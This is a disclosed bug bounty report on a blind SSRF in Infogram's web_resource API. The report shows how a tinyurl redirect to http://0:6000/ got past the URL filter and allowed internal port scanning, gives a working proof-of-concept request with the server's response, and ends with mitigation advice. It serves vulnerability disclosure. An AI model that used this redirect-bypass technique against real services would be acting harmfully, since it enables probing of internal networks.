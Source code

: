# Internal Ports Scanning via Blind SSRF  (URL Redirection to beat filter)

## Report Details
- **Report ID**: 287496
- **URL**: https://hackerone.com/reports/287496
- **State**: Closed
- **Severity**: low
- **Submitted**: 2017-11-05T03:11:25.056Z
- **Disclosed**: 2017-11-08T14:14:33.919Z

## Reporter
- **Username**: spicyturtle
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: infogram

## Vulnerability Information
Summary
---------------------
This is a blind SSRF that lets you scan internal ports.

Technical Details
--------------------
Inspired by #281950, I found a way to evade the filter for the api endpoint `web_resource` by using a URL Redirection service.  I used tinyurl to create a url that linked to http://0:6000/ (any port would work here).    

Proof of Concept
----------
https://infogram.com/api/web_resource/url?q=https://tinyurl.com/ybk7sqrg

Response:
```
HTTP/1.1 200 OK
Date: Sun, 05 Nov 2017 02:42:03 GMT
Content-Type: application/json; charset=utf-8
Connection: close
Server: nginx
Vary: Accept-Encoding
X-DNS-Prefetch-Control: off
Strict-Transport-Security: max-age=31536000
X-Download-Options: noopen
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
Referrer-Policy: no-referrer
X-Frame-Options: SAMEORIGIN
ETag: W/"fd-LAmakEWFfBZbQhSwn4nbeuTsy48"
X-Infogram-Server: b201
X-Infogram-Proxy: us
Content-Length: 253

[{"title":"Create Infographics, Charts and Maps - Infogram","description":"Infogram is an easy to use infographic and chart maker. Create and share beautiful infographics, online charts and interactive maps. Make your own here.","url":"http://0:6000/"}]
```

I'm not sure if that tinyurl sticks around, but it's trivial to make another one using the information above.

Mitigation
--------------
Alter your filter so that it follows redirects until it lands on an actual URL, then check that URL.


## Attachments
No attachments
